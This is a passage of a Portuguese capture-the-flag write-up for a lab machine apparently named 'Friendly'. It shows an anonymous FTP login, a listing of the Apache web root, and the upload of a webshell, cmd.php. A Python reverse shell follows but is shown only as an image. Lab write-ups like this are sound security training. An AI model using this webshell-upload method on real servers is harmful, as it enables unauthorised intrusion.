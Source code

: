 ```shell
─ ftp 192.168.15.4 
Connected to 192.168.15.4.
220 ProFTPD Server (friendly) [::ffff:192.168.15.4]
Name (192.168.15.4:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14239|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
226 Transfer complete
ftp> get index.html
```
{: .nolineno }

Apenas a página inicial do apache, isso pode indicar que estamos na raiz do apache e enviar uma webshell.  
Enviado cmd.php

```shell
ftp> send cmd.php
local: cmd.php remote: cmd.php
229 Entering Extended Passive Mode (|||36700|)
150 Opening BINARY mode data connection for cmd.php
100% |*******************************************************|    40      265.73 KiB/s    00:00 ETA
226 Transfer complete
40 bytes sent in 00:00 (39.25 KiB/s)
ftp> 
```
{: .nolineno }
## **Acesso/Foothold**
![alt text](/assets/img/friendly/friendly4.png)

Executado comando pra reverse shell com python.
![alt text](/assets/img/friendly/friendly5.png)
